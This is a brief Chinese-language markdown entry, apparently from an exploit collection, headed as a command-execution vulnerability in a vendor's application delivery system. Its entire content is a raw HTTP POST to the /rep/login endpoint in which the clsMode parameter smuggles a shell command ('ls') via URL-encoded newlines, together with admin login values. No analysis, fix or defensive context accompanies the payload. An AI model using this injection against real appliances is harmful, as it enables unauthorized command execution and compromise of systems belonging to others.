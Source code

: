 # 某x服应用交付系统命令执行漏洞

## 某x服应用交付系统命令执行漏洞
```
POST /rep/login
Host:127.0.0.1:85

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

